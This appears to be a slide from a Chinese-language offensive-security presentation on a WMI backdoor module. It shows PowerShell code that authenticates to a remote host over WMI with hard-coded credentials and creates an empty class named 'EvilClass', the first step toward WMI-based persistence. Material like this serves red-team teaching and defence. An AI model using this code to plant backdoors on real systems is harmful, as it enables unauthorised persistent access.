

0x02 WMI后门模块
·  建立连接
示例代码：
#连接192.168.40.206
$Options = New-Object Management.ConnectionOptions
$Options.Username = 'a'
$Options.Password = 'testtest'
$Options.EnablePrivileges = $True
$Connection = New-Object Management.ManagementScope
$Connection.Path = '\\192.168.40.206\root\cimv2'
$Connection.Options = $Options
$Connection.Connect()
$EvilClass = New-Object Management.ManagementClass($Connection, [String]::Empty, $null)